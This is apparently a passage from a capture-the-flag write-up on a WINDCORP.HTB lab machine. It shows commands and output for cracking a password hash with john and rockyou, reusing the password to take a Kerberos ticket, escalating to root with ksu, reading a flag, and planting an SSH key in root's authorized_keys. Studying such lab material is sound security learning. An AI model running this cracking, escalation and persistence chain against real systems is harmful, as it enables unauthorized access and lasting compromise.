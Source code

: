 ```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt ray_duncan.hash 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pantera          (?)     
1g 0:00:00:00 DONE (2024-08-26 01:21) 4.761g/s 9752p/s 9752c/s 9752C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```bash
webster@webserver:~$ klist
klist: No credentials cache found (filename: /tmp/.cache/krb5cc.8557)
```

```bash
webster@webserver:~$ kinit ray.duncan
Password for ray.duncan@WINDCORP.HTB: pantera
```

```bash
webster@webserver:~$ klist
Ticket cache: FILE:/tmp/.cache/krb5cc.8557
Default principal: ray.duncan@WINDCORP.HTB

Valid starting       Expires              Service principal
08/26/2024 10:22:57  08/26/2024 15:22:57  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 08/27/2024 10:22:54
```

`ksu` is a program that will try to get root privileges using Kerberos / AD as the arbitrator. I can run it to see if Ray.Duncan can escalate

```bash
webster@webserver:~$ ksu
Authenticated ray.duncan@WINDCORP.HTB
Account root: authorization for ray.duncan@WINDCORP.HTB successful
Changing uid to root (0)
root@webserver:/home/webster# id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
root@webserver:/home/webster# cat /root/user.txt 
4a1f52...
```

I will again add my ssh key on the authorized_keys file, but this time at root user.

```bash
root@webserver:/home/webster# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEBrS9Ew9Gm/1YkHvy2r2MIUPY2/t1m78Ms2jypk1y9m kali@kali" >> ~/.ssh/authorized_keys
```
